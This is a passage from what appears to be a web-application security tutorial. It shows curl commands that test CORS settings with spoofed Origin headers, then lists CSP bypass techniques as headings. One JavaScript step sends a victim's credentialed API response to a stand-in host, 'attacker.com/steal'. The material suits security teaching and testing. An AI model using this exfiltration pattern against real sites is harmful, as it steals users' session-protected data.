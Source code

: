 3. **Testing CORS Configurations**:
   - Header analysis
   - Origin manipulation
   - Credential inclusion
   - Null origin requests

```bash
# Example: CORS misconfiguration testing

# Step 1: Test basic CORS configuration
curl -I -H "Origin: https://attacker.com" https://example.com/api/user

# Step 2: Check response headers
# Look for:
# Access-Control-Allow-Origin: https://attacker.com
# Access-Control-Allow-Credentials: true

# Step 3: Test null origin
curl -I -H "Origin: null" https://example.com/api/user

# Step 4: Test subdomain bypass
curl -I -H "Origin: https://evil.example.com" https://example.com/api/user

# Step 5: Test partial string matching bypass
curl -I -H "Origin: https://exampleattacker.com" https://example.com/api/user

# Step 6: Exploit CORS misconfiguration (JavaScript)
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch('https://attacker.com/steal?data=' + encodeURIComponent(xhr.responseText));
    }
}
xhr.open('GET', 'https://example.com/api/user', true);
xhr.withCredentials = true;  // Include cookies
xhr.send(null);
```

### 6.3 Content Security Policy (CSP) Bypass

Circumventing CSP protections:

1. **CSP Fundamentals**:
   - CSP header syntax
   - Directive types
   - Reporting mechanisms
   - CSP levels and browser support

2. **CSP Bypass Techniques**:
   - Unsafe inline scripts
   - Unsafe eval usage
   - Whitelisted domains
   - JSONP endpoints
   - DOM-based bypasses
